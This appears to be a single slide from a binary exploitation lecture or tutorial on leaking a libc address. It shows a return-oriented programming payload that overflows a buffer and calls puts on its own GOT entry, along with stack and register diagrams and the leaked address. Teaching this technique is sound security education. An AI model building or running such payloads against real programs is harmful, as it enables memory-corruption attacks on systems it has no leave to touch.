

0x7f365d1a9420

# Leaking Libc Address (cont.)
| ... |
| --- |
| 0x4010b0 |
| 0x40101a |
| 0x401070 |
| 0x401273 |
| JUNKJUNK |
| 0x90909090... |
| ... |
payload = b"\x90"*208
payload += b"JUNKJUNK"
payload += p64(pop_rdi)    # 0x401273
payload += p64(puts_glibc) # 0x404018
payload += p64(puts_plts)  # 0x401070
payload += p64(ret)        # 0x40101a
payload += p64(main)       # 0x4010b0

| %rax | 0x0 |
| --- | --- |
| %rdi | 0x7ffff7faf7e0 |
| %rbp | JUNKJUNK |
| %rip​ | 0x40101a |
puts_libc = 0x7f365d1a9420